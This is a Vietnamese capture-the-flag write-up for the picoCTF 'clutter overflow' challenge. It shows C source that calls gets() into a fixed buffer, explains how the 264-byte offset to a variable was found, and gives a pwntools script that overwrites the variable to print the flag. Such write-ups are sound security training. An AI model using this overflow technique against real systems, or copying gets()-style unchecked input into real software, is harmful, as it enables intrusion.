





**1. Tìm lỗi**

   Ta có file source như sau: 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
   
    Ta có câu lệnh gets và `system("cat flag.txt");` được trong câu lệnh if -> Nghĩ đến lỗi bof
    Sử dụng lệnh 'checksec' ta có như sau: 

    

    Ta thấy CANARY đang disabled -> Có thể khai thác qua lỗ hổng bof

**2. Ý tưởng**

   Ta tận dụng lỗ hổng bof để nhập tràn từ biến clutter đến biến code rồi chèn giá trị thỏa mãn vào

**3. Viết script**

   Dùng lệnh 'file' để kiểm tra file thực thi

   

   Ta thấy là file 64bit

   

   Địa chỉ của biến clutter là: rbp - 0x110

   

   Địa chỉ biến code là: rbp - 0x8

   Vậy khoảng cách từ biến clutter đến biến code là: 0x110 - 0x8 = 264
   Giá trị của GOAL là: 0xdeadbeef

   Vậy ta có script như sau: 

```
from pwn import *

r = remote("mars.picoctf.net", 31890)

payload = b'a'*264 + p64(0xdeadbeef)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

   

   Flag: picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
